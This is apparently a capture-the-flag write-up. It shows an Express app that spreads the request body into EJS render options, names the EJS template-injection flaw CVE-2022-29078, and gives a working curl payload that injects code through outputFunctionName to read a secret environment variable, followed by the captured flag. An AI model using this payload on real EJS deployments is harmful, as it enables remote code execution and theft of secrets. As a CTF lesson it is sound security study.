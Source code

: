 ```yaml
---
created: 2024-06-10T01:41
updated: 2024-06-10T23:17
---
```


> This old service lets you make some interesting queries. It hasn't been updated in a while, though.

---

```js
res.render('search', {
	summary,
	notFound: false,
	...req.body
})
```

The server dumped all of our form body into express view options, ~~that's great~~ that's not good, …and `ejs@3.1.6` has a 9.8/10 RCE.

Find more info here [EJS, Server side template injection RCE (CVE-2022-29078) - writeup | ~#whoami Eslam Salem](https://eslam.io/posts/ejs-server-side-template-injection-rce/).

With the information we have we can create our payload easily.

```sh
curl --request POST \
  --url http://challs.bcactf.com:30684/ \
  --header 'Content-Type: application/x-www-form-urlencoded' \
  --data breed=pekin \
  --data 'settings[view options][outputFunctionName]=x;__output+=Deno.env.get("FLAG");s'
```

And boom, our flag is here.

```
bcactf{a_l1Ttl3_0uTd4T3d_qYR8IeICVTLPU0uK}
```
